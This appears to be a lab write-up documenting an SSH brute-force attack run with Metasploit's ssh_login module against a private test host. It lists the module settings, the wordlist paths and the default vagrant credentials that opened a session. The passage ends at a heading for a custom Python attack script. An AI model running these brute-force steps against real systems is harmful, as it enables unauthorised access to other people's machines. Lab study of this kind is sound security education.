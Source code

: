 We used the following command to load the module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

We then configured the module with the following settings:

```bash
set RHOSTS 192.168.64.7
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```

 ![WhatsApp Image 1446-10-23 at 10 05 01](https://github.com/user-attachments/assets/01729688-9d8a-44d1-a556-00e3d15db390)


Then we ran the exploit using:

```bash
run
```

![WhatsApp Image 1446-10-23 at 10 05 01 (1)](https://github.com/user-attachments/assets/5e6d1eaa-527e-43ee-8bd9-58502f1e489c)


---

###  Results

The output shows that the brute-force attack attempted various username and password combinations against the target IP `192.168.64.7` over SSH (port 22). Most combinations failed, which is indicated by the repeated `Failed:` lines.
Eventually, one combination succeeded:
- **Username:** `vagrant`  
- **Password:** `vagrant`

Once these credentials were found, Metasploit successfully established an SSH session with the target machine, as shown by: 
```bash
[*] SSH session 1 opened (192.168.64.5:38567 -> 192.168.64.7:22)
```

This confirms that:

- The SSH service on the target is vulnerable to brute-force due to weak/default credentials. 
- The Metasploit module `auxiliary/scanner/ssh/ssh_login` was able to gain access to the system.
- The session was opened with user-level privileges (`uid=900(vagrant)`), indicating limited access but successful exploitation.

The final message `Auxiliary module execution completed` confirms that the attack finished without error.



##  Task 1.2 - Custom SSH Attack Script (Python Proof of Concept)
